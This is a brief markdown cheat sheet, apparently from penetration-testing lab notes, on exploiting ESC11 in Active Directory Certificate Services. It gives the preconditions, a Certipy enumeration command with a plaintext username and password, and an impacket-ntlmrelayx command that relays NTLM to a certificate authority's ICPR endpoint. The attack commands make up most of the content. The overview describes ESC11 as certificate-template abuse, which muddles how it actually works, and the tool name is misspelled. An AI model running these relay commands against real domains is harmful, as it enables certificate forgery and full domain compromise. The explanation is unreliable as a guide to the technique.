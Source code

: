 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview: 

Exploiting ESC11 in AD CS involves abusing certificate templates that allow enrollment for certificates with insufficient security controls, enabling attackers to forge certificates that can impersonate privileged accounts. This can lead to unauthorized access and potential full domain compromise, especially when combined with weak certificate validation or mapping practices.

## Requirements:

- Enforce Encryption for Requests: Disabled
- Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

# Abusing ESC11  Certificate Templates

## Certipy:
- cetipy-ad find -username afsimmons@megacorpone.com -p Spawn123! -dc-ip 172.21.1.5 -stdout
- impacket-ntlmrelayx -t rpc://172.21.1.100 -rpc-mode ICPR -icpr-ca-name megacorp-DC-CA -smb2support